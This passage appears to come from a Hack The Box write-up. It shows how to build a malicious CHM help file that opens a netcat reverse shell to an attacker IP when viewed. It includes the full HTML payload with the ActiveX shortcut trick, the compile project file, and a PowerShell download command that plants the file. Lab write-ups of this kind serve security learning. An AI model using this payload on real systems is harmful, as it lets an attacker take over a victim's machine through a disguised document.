 I did an experiment. I copied `instructions.chm` and dropped it into `C:\Docs`. Within a minute, the file got mysteriously removed. If I had to guess, I would say that this is a client-side exploit and I need a malicious CHM [file](https://twitter.com/ithurricanept/status/534993743196090368?lang=en).

I extracted `a.html` from `instructions.chm`, modified it, and using `hhc.exe` (Microsoft HTML Help Workshop and Documentation), I was able to compile my malicious CHM file.


{% include image.html image_alt="9459d742.png" image_src="/07c0d229-f98c-4f6c-90ce-0757ee398b6b/9459d742.png" %}


<div class="filename"><span>a.html</span></div>

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>

<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>

<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
  <PARAM name="Command" value="ShortCut">
  <PARAM name="Button" value="Bitmap::shortcut">
  <PARAM name="Item1" value=',cmd,/c start c:\temp\cute.exe 10.10.15.171 8888 -e cmd.exe'>
  <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
  x.Click();
</SCRIPT>

</body>
</html>
```

For the record, I transfered the `nc.exe` I had earlier to `C:\Temp`. To compile the CHM file, I need a project file. It's a ridiculously simple file.

<div class="filename"><span>evil.hpp</span></div>

```
[FILES]
C:\Users\bernard\Downloads\a.html
```

Let's compile it.


{% include image.html image_alt="3e1f63f1.png" image_src="/07c0d229-f98c-4f6c-90ce-0757ee398b6b/3e1f63f1.png" %}


Time to drop the file into `C:\Docs`.

```
PS C:\Docs> iwr http://10.10.15.171/evil.chm -outf .\instructions.chm
```


[1]: https://www.hackthebox.eu/home/machines/profile/211
[2]: https://www.hackthebox.eu/home/users/profile/27390
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/